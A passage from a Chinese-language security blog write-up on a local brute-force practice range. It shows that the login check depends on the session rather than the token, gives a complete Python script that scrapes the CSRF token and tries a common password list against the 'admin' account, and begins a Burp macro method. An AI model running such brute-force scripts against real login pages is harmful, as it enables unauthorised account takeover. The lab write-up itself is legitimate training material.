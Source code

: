 ![][35]

![][36]

看可以看到`token`值未发生变化，但是返回值不一样，说明重点不是`token`而是检测`session`

### python 脚本

检测`session`的话对`python`来说很简单，因为`request`有`session()`方法就是用来保持会话的

查看源代码可以发现`token`值就放在页面源代码输入框的下面：

![][37]

使用`beautifulsoup`解析页面获取到`token`再发出去就行了

全代码如下：

```
import requests
from bs4 import BeautifulSoup

url = 'http://127.0.0.1/BruteForc_test/hdyzma/'
login_url = 'http://127.0.0.1/BruteForc_test/hdyzma/welcome.php'
pass_list = open('./10-million-password-list-top-1000.txt',
'r').read().splitlines()
for line in pass_list:
s = requests.session()
html = s.get(url)
soup = BeautifulSoup(html.text, 'html5lib')
tag = soup.find_all('input')
token = tag[2].get('value')
data = {
'name': 'admin',
'password': line,
'token': token
}
html = s.post(login_url, data=data)
if '登陆成功' in html.text:
print('[[+]succeed] password is:{}'.format(line))
exit()
```

![][38]

### burp

跟着靶场原作者`3sNwGeek`做一遍

在拉动验证码抓取到的其中一个包的`response`中有`token值`

![][39]

于是我们可以使用`burpsuite`的宏功能把登录页的`token`值抓出来填入登录请求


[1]: https://github.com/3sNwgeek/BruteForc_test
[2]: https://github.com/3sNwgeek/awd_worm_phpwebshell_framework
[3]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_140653.png
[4]: https://soapffz.com/462.html#menu_index_5=true
[5]: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
[6]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_140829.png
[7]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141009.png
[8]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141026.png
[9]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141108.png
[10]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141410.png
[11]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141421.png
[12]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_171924.png
[13]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_171914.png
[14]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172453.png
[15]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172515.png
[16]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172535.png
[17]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_180859.png
[18]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_181301.png
[19]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_181617.png
[20]: https://digi.bib.uni-mannheim.de/tesseract/tesseract-ocr-setup-4.00.00dev.exe
[21]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_134932.png
[22]: https://www.lanzous.com/i1z2s3e
[23]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_151726.png
[24]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_151845.png
[25]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152521.png
[26]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152032.png
[27]: https://pan.baidu.com/s/1gxFdk?fid=943060932816851
[28]: https://pan.baidu.com/s/1jGJU2nO?fid=3392384981
[29]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152305.png
[30]: https://t.me/soapffz
[31]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152748.png
[32]: https://github.com/bit4woo/reCAPTCHA/releases/latest
[33]: https://github.com/c0ny1/captcha-killer
[34]: http://gv7.me/articles/2019/burp-captcha-killer-usage/
[35]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_105621.png
[36]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_105630.png
[37]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_110238.png
[38]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_110546.png
[39]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111128.png
[40]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111620.png
[41]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111725.png
[42]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_112922.png
[43]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111934.png
[44]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160513.png
[45]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113155.png
[46]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113514.png
[47]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113404.png
[48]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160657.png
[49]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160731.png
[50]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160743.png
[51]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160902.png
[52]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_162328.png
[53]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_162405.png
[54]: http://www.7ten7.top/2019/09/18/2019-09-18-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E9%9D%B6%E5%9C%BA/
[55]: https://mp.weixin.qq.com/s/2qe1Sx3IV2LHwomMSTacdg
[56]: https://mp.weixin.qq.com/s/lKAp0A4qQuh0JP9qQnPvcg